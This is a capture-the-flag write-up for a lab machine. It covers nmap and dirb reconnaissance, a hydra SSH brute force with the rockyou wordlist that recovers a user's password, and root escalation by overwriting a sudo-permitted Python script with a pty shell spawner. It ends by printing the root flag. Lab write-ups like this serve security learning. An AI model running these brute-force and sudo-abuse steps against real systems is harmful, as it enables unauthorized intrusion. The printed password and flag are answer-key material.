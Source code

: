 # Information Gathering
> nmap -A $TARGET > nmapres.txt

port 80 open, so let's check it.
  * View page source :
  * on nmap resaults: *http-robots.txt: 1 disallowed entry*

Every link has a href to homepage \<a href=\"#\"\> --> xss is not a good choice

lets find other dirs:

> dirb http://$TARGET /usr/share/wordlists/dirb/common.txt

found 3 resaults:
```
	==> DIRECTORY: http://10.10.42.55/images/                                                          
	+ http://10.10.42.55/index.html (CODE:200|SIZE:5439)                                               
	+ http://10.10.42.55/robots.txt (CODE:200|SIZE:33)                                                 
	+ http://10.10.42.55/server-status (CODE:403|SIZE:299) 
```

We can conclude there's something on robots.txt:

```
	User-agent: rockyou 
	Disallow: /
```

rockyou is the wordlist we use for weak common passwords
user-agent would be a username mentioned somewhere

SMB is closed to find users; So we have to find it manually

back to homepage :
> Posted on June 29th 2009 by **meliodas**

lets hydra meliodas : rockyou.txt on ssh

> hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://$TARGET

Found!!!
[22][ssh] host: 10.10.42.55   login: meliodas   password: iloveyou1

---

Now we logged in as meliodas in the machine,
lets ls the home dir of meliodas

```
	-rw-r--r-- 1 root     root      353 Aug 23  2019 bak.py
	-rw-rw-r-- 1 meliodas meliodas   33 Aug 23  2019 user.txt
```

we have the user flag.

### Root flag

let's see what bak.py does;
It backups the whole website in /var/backups
but it requiers some root privilages
so let's see what we can do with sudo
> sudo -l
(ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py

We can run the bak.py script as root
so let's write a script to give us shell access; But bak.py is -rw-r--r-- so it's write-protected. The solution is EZ! just remove and write again

> rm bak.py

> nano bak.py ( # vim wasn't there!!!)

```python
import pty

pty.spawn("/bin/sh")
```

now if we run it we have a root tty and we can read root flag
> cat /root/root.txt

e8c8c6c256c35515d1d344ee0488c617
